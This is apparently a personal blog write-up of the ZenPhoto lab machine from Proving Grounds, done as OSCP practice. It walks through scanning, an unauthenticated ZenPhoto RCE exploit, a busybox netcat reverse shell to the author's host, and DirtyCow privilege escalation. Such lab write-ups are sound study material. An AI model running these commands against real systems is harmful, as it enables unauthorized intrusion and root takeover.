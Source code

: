 ```yaml
---
layout: writeup
title: ZenPhoto - Proving Grounds
date: # 2024-07-26 13:32:20 +0300
description: A Writeup of the ZenPhoto Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, kernel]
---
```


![ZenPhoto1.png](/assets/images/ZenPhoto/ZenPhoto1.png){: .center-aligned width="600px"}

Here's a writeup for ZenPhoto, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). get started with an nmap scan to reveal:
```
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```
I head to the browser to check port 80, and I see this. 

![ZenPhoto2.png](/assets/images/ZenPhoto/ZenPhoto2.png){: .center-aligned width="600px"}

Not super helpful, so I kick off a directory scan which points toward a /test directory.

![ZenPhoto3.png](/assets/images/ZenPhoto/ZenPhoto3.png){: .center-aligned width="600px"}

Powered by ZenPhoto? You don't say. Viewing the source of this page reveals a version number that might help us to find an exploit.

![ZenPhoto4.png](/assets/images/ZenPhoto/ZenPhoto4.png){: .center-aligned width="600px"}

It shows a few other directories like `/test/zp-core/images/reset_icon.png` which leads us to the admin page of `192.168.245.41/test/zp-core/admin.php` when we try to few all images, but I search for the version and exploit to get started. Unfortunately most of them seem to require authentication, but there is one [RCE Exploit](https://www.exploit-db.com/exploits/18083) that does not. We save that to our directory as 18083.php (like it's titled in searchsploit) and run `php 18083.php 192.168.245.41 /test/`. 

![ZenPhoto5.png](/assets/images/ZenPhoto/ZenPhoto5.png){: .center-aligned width="600px"}

That get us a limited shell, so I decided to use `busybox nc 192.168.45.183 4444 -e /bin/bash` to get something more stable. I catch that shell with penelope, and it's time to enumerate. We can't run sudo, and nothing really sticks out from lse or linpeas beyond kernel exploits, which we usually avoid in labs as they are often not the intended path. We do have `gcc` on this machine though, so we can compile a kernel exploit if we need to. 

And after enumerating for a while I did just that. I checked for cron jobs and running processes as well as a number of files which stuck out as potentially containing credentials, but I couldn't find anything that actually did, plus they would have to come for the root user directly. So ultimately I downloaded [dirtycow](https://github.com/firefart/dirtycow) and transferred it to the target machine. From then I simply followed the instructions (`gcc -pthread dirty.c -o dirty -lcrypt`) and ran the binary (`./dirty`) to create a user called `firefart` with the password I chose (`party1`). After that I simply used `su firefart` and entered my password.

![ZenPhoto6.png](/assets/images/ZenPhoto/ZenPhoto6.png){: .center-aligned width="600px"}

And we're done. Given that the dirtycow exploit is older than the lab machine, maybe it was the intended exploit. Either way, I need to run to the grocery store so I can start dinner, and I'll have to look for alternatives afterward. 

Lessons learned: Not a lot during this box. We use a powerful RCE exploit for one service which allows us to get a shell, and then we use a kernel exploit which we normally avoid during labs like this. Most of the time was spent looking for clues that weren't there on the target (or looking for alternatives to the initial exploit because I didn't realize I could run it from my own command line even though it was a .php file). Overal pretty simple. 

Post-Box Research: Most of the writeups I read actually were some kind of kernel exploits, so while I had options, it does seem like that was the intended path. While I used dirtycow, I also saw PwnKit and [this rds exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds). 
